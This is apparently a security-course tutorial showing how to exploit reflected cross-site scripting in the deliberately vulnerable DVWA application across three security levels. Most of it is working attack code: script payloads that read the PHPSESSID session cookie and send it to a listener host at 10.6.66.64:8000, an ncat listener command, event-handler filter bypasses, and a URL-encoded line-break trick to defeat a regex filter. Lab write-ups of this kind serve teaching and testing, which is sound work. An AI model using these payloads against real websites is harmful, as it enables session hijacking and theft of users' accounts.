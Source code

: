 # Tutorial 7: Client-Side Web Vulnerabilities (Part 1)

## Cross-site scripting vulnerabilities in DVWA
Our goal is to exploit the vulnerbilities in the **XSS (Reflected and Stored)** categories on `dvwa`. I will first go through the **Reflected** category, then the **Stored**. To test this vulneratility, a "fake" web server was instantiated on port 8000 using the following command:
```
ncat -lkc "perl -e 'while (defined(\$x = <>)){ print STDERR \$x; last if \$x eq qq#\\r\\n
# } print qq#HTTP/1.1 204 No Content\\r\\n#'" 8000
```

*Security Level: low*

Looking at the source code, we can see that there is no filtering of the user input:
```php
echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
```
This means that a basic XXS attack should work. If we enter `<script src=http://10.6.66.42:8000></script>` instead of a name, we can see a response appear in the terminal of our "fake"  web server:
```
GET / HTTP/1.1
Host: 10.6.66.64:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://10.6.66.42/
```
Now that we've established communication to our web server, the next step is figuring out how to attach the session cookie to the http request. Unfortunately this isn't possible using our previous approach. In order to exfiltrate data, we need to make an `XMLHttpRequest`, which we can then add information to:
```html
<script>
  var msg = new XMLHttpRequest();
  var url = "http://10.6.66.64:8000";
  var params = "?test=test";
  msg.open("GET", url+params, async=false);
  msg.send();
</script>
```
Sending this script leads to the same response as the previous one, but with `GET /?test=test HTTP/1.1` as part of the first line. This now gives us the tool to exfiltrate data. Note that sending this request will cause the dvwa webpage to freeze up (presumably because we send an asynchronous request). Now that we can attach data, we need to get the session cookie. Cookies can be accessed in javascript with `document.cookie`. We could just send this entire string back as part of our query string, but finding the specific cookie we are looking for is a git more elegant. We can define the following javascript funciton to do this:
```javascript
function getCookie(name) {
  const value = `; ${document.cookie}`; // Pre-pends a ; to our string so that all cookies match the same pattern "; {name}={value}"
  const parts = value.split(`; ${name}=`); // Splits the string in 2 if we find our target cookie name, with the target value in the second part of the string
  if (parts.length === 2) return parts.pop().split(';').shift(); //Take the second element of the array (contains our target value), now split on ';' and take the first element (our target value)
}
```
Combining all of this together, we can send the following payload:
```html
<script>
    var msg = new XMLHttpRequest();
    var url = "http://10.6.66.64:8000";
    function getCookie(name) {
      const value = `; ${document.cookie}`;
      const parts = value.split(`; ${name}=`);
      if (parts.length === 2) return parts.pop().split(';').shift();
    }
    msg.open("GET", url+"?PHPSESSID="+getCookie("PHPSESSID"), async=false);
    msg.send();
</script>
```
We receive this in our web server as `GET /?PHPSESSID=c0qlht8eff4bsj7iqo3a0so092 HTTP/1.1`. If a user now visits the url which sets name to this payload, their session cookie would be leaked. If we check in the browser storage, we can see that the cookie we received matches the stored value of `PHPSESSID` (`c0qlht8eff4bsj7iqo3a0so092`).

*Security Level: medium*

To try and prevent XSS, the page is now filtering `<script>` tags out of the input:
```PHP
// Get input
$name = str_replace( '<script>', '', $_GET[ 'name' ] );

// Feedback for end user
echo "<pre>Hello ${name}</pre>";
```
However, this does not prevent us from executing javascript code. There are many ways this can be done:
- Using `<SCRIPT>, <Script>, <ScRiPt>, etc..` tags (i.e. make one of the letters non-lowercase)
- Using [**HTML Events**](https://www.w3schools.com/js/js_events.asp). Note that for this approach, the javascript code needs to be wrapped in `""`, meaning that you cannot use `"` in your javascript payload (use `'` or backticks instead for string literals). Some examples of this are:
  - The `onload` event attribute in `<body>, <iframe>, <style>`:
    ```html
    <body onload="alert(1);">
    ```

  - The `onerror` event attribute in `<img>, <object>`:
    ```html
    <object data="x" onerror="alert(1);">
    ```
  - The `onclick` event attribute on basically any HTML tag `<button>, <pre>, <em>, etc.`. Has a few exceptions, see [here](https://www.w3schools.com/tags/ev_onclick.asp):
    ```html
    <button onclick="alert(1);">Click me!</button>
    ```
    *This one is especially nice because the page loads a cute little button which you can then click to trigger the XSS :)*
  - The `onmouseover` event attribute (same as above)

***"There are more ways of executing javascript code in html than there are stars in our universe" - Carl Sagan***

For any of the methods above, we can simply insert the javascript payload we created for the *low* difficulty (ensuring `"` are removed if we use events). For example:
```html
<img src=x onerror="var msg = new XMLHttpRequest();
var url = 'http://10.6.66.64:8000';
function getCookie(name) {
  const value = `; ${document.cookie}`;
  const parts = value.split(`; ${name}=`);
  if (parts.length === 2) return parts.pop().split(';').shift();
}
msg.open('GET', url+'?PHPSESSID='+getCookie('PHPSESSID'), async=false);
msg.send();">
```

*Security Level: high*

The page is now using a slightly beefier regex to prevent XSS:

```
// Get input
$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

// Feedback for end user
echo "<pre>Hello ${name}</pre>";
```
Whilst this now prevents having `<script>` tags of different cases (the `/i` at the end of the regex means the regex is case-invariant), all the other methods of executing javascript code outlined in the *medium* section are still applicable. However, we also need to make sure that our payload avoids matching the regex above. Since our input is given as an only line, if the characters `s`, `c`, `r`, `i`, `p`, `t` appear in our code in, in that order (no matter how far apart they are), they will match the regex and be replaced. This is the case for our current payload (an easy way to check if a string matches a regex is using [RegExr](https://regexr.com/)). Our options are to either rewrite our payload to avoid this issue, or to do something a bit cheekier (and lower effort).

The `.` in the regex matches any character except line breaks, meaning that if we can put a line break in our payload, we should be safe from matching the regex (since we only use `<` to define the tag used). Whilst we can't insert line-breaks into the text box on the website, we can insert a line break in the url created by submitting our box using `%0A`, which is the URL encoded character for a new line. This should prevent the regex from matching our payload and allow it to be executed successfully.

For example, if we submit the payload:
```html
<button onclick="var msg = new XMLHttpRequest();
var url = 'http://10.6.66.64:8000';
function getCookie(name) {
  const value = `; ${document.cookie}`;
  const parts = value.split(`; ${name}=`);
  if (parts.length === 2) return parts.pop().split(';').shift();
}
msg.open('GET', url+'?PHPSESSID='+getCookie('PHPSESSID'), async=false);
msg.send();">Click Me</button>
```
We can see the name parameter in the URL has been set to:
```
...?name=%3Cbutton+onclick%3D%22var+msg+%3D+new+XMLHttpRequest()%3B+var+url...
```
This is essentially our payload after URL encoding. The `%3B` is the URL encoding for `;`, so if we insert `%0A` for a line break, our javascript syntax should still be valid:
```
...?name=%3Cbutton+onclick%3D%22var+msg+%3D+new+XMLHttpRequest()%3B%0A+var+url...
                                                                   ^^^
```
If we now submit this URL, the page now renders a button, which when clicked executes our payload successfully!
